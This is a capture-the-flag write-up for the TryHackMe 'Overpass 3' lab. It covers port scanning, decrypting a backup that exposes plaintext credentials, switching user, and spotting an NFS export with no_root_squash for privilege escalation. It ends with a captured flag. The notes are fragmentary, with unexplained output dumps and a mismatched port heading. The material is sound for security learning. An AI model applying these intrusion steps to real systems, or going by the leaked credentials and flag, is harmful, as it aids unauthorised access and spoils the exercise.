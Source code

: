 # Introduction

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx overpass3.thm
```

# Enumeration

we do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV overpass3.thm
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
Service Info: OS: Unix
```

# FTP (port 21)
we'll try to connect to the FTP server with anonymous account
```bash
$ ftp overpass3.thm                                                                                    
Connected to overpass3.thm.
220 (vsFTPd 3.0.3)
Name (overpass3.thm:kali): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
```

it's not working, let's move to next

# HTTP (port 31331)
On the homepage, we learn there is 4 employees
```bash
Paradox - Our lead web designer, Paradox can help you create your dream website from the ground up\
Elf - Overpass' newest intern, Elf. Elf helps maintain the webservers day to day to keep your site running smoothly and quickly.\
MuirlandOracle - HTTPS and networking specialist. Muir's many years of experience and enthusiasm for networking keeps Overpass running, and your sites, online all of the time.\
NinjaJc01 - James started Overpass, and keeps the business side running. If you have pricing questions or want to discuss how Overpass can help your business, reach out to him!\
```
we found /backups/ url with a backup.zip file
in this backup file, there is a gpg file and a key file (used to decrypt the gpg
we decrypt with
```bash
gpg --import priv.key
gpg -d CustomerDetails.gpg 
```

<img width="702" alt="image" src="https://github.com/MaTe0r/tryhackme.com/assets/94843357/c9b6c294-9c53-4fca-b7f0-f66aed812f0b">

paradox:ShibesAreGreat123\
0day:OllieIsTheBestDog\
muirlandoracle:A11D0gsAreAw3s0me


with this account, i access to ftp paradox:ShibesAreGreat123

```bash
root:x:0:0:root:/root:/bin/bash
james:x:1000:1000:James:/home/james:/bin/bash
paradox:x:1001:1001::/home/paradox:/bin/bash
```

we can use the previously found credentials of paradox to do a su and become paradox : paradox:ShibesAreGreat123
```bash
bash-4.4$ su paradox
Password: 
[paradox@localhost /]$
```

we see there is /usr/bin/crontab with suid bit\
we'll try to add a job executed by root


/home/paradox/.local/bin:/home/paradox/bin:/home/paradox/.local/bin:/home/paradox/bin:/usr/local/bin:/usr/bin
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin

pspy64


tcp     LISTEN   0        128              0.0.0.0:111            0.0.0.0:*                                                                                  
tcp     LISTEN   0        128              0.0.0.0:20048          0.0.0.0:*     
tcp     LISTEN   0        64               0.0.0.0:43221          0.0.0.0:*     
tcp     LISTEN   0        128              0.0.0.0:22             0.0.0.0:*     
tcp     LISTEN   0        128              0.0.0.0:51255          0.0.0.0:*     
tcp     LISTEN   0        64               0.0.0.0:2049           0.0.0.0:*     
tcp     LISTEN   0        64                  [::]:43563             [::]:*     
tcp     LISTEN   0        128                 [::]:111               [::]:*     
tcp     LISTEN   0        128                 [::]:20048             [::]:*     
tcp     LISTEN   0        128                    *:80                   *:*     
tcp     LISTEN   0        128                 [::]:58355             [::]:*     
tcp     LISTEN   0        32                     *:21                   *:*     
tcp     LISTEN   0        128                 [::]:22                [::]:*     
tcp     LISTEN   0        64                  [::]:2049              [::]:*


╔══════════╣ Analyzing NFS Exports Files (limit 70)
Connected NFS Mounts:                                                                                                                                        
nfsd /proc/fs/nfsd nfsd rw,relatime 0 0
sunrpc /var/lib/nfs/rpc_pipefs rpc_pipefs rw,relatime 0 0
-rw-r--r--. 1 root root 54 Nov 18  2020 /etc/exports
/home/james *(rw,fsid=0,sync,no_root_squash,insecure)


thm{3693fc86661faa21f16ac9508a43e1ae}
